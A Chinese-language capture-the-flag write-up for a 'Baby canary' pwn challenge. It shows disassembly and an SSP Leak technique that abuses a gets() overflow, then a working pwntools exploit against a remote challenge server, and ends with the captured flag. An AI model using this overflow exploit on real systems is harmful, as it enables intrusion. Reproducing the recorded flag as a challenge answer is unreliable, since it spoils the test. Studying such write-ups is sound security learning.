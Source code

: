 # PWN WP Baby canary

`checksec canary2`确认确实有Canary机制保护，IDA打开，`main()`中有：

```
var_8= qword ptr -8

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 30h
mov     rax, fs:28h
mov     [rbp+var_8], rax
xor     eax, eax
```

可以看到函数调用`rbp-0x8`位置为canary

IDA<kbd>F5</kbd>看看`main()`里面突破口

```c
//main()
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // ST08_8
  int fd; // [rsp+4h] [rbp-2Ch]
  char v6; // [rsp+10h] [rbp-20h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  fd = open("flag", 0);
  if ( fd < 0 )
  {
    printf("Not find flag, Wrong!");
    exit(0);
  }
  buf = malloc(0x20uLL);
  read(fd, buf, 0x10uLL);
  puts("Rop is easy for U, try bypass the check!");
  printf("Here is your key: %p\n", buf);
  puts("Say something before leaving.");
  gets((__int64)&v6);
  printf("I hava received your message, bye!");
  return 0;
}
```

可以看到，key（这个`buf`）其实是服务器底下文件`flag`里用`read()`读取出来的flag在内存中的地址，既然能得到flag在内存中的地址，我们只要想办法**输出key地址的字符串**就能得到flag了。

另外：如果要在本地搭建测试的环境的话要建立一个名为flag的文件。

然而这里`gets`完了之后没有地方能直接泄露Canary，一旦输入溢出覆盖了Canary就会：

```shell
root@pjx:~/pjx# nc pwnto.fun 10007
Rop is easy for U, try bypass the check!
Here is your key: 0x1704010
Say something before leaving.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
I hava received your message, bye!*** stack smashing detected ***: ./canary2 terminated
```

然而好在和本地搭建环境不一样，这个`*** stack smashing detected ***: ./canary2`会返回到用户终端，而不是仅在服务器出现。

而`___stack_chk_fail`输出的`*** stack smashing detected ***: ./canary2`中`./canary2`来历有点意思，ELF中本身是没有保存程序名字的，IDA动态调试进入`___stack_chk_fail`一路<kbd>F7</kbd>来到输出这个错误提示的地方：

![image.png](https://i.loli.net/2019/10/19/zDfi3pdOgAyKCT7.png)

可以看到其实`./canary`是会出现在内存中的，就是`a2`地址所在的地方。

---

所以大致的思路就是，让flag的地址，也就是key，覆盖`___stack_chk_fail`输出`./canary`的地址，只要输入溢出，引发`___stack_chk_fail`让flag自己被输出来就行。这就是`SSP Leak`。不过我没想到如何确定要溢出到什么程度才能覆盖掉内存中`a2`储存的地址，经测试，`0x100 * p64(key)`够了。

exploit如下：

```python
from pwn import *

sh = remote('pwnto.fun', 10007)
r1 = sh.recv()
r2 = sh.recv()

s = r2.find(':') + 2
key = int(r2[s:s+9], 16)

log.info("key:"+hex(key))
sh.sendline(p64(key)*0x100)
sh.interactive()
```

运行得到flag:

`Syc{pwn_pWn_Pwn}`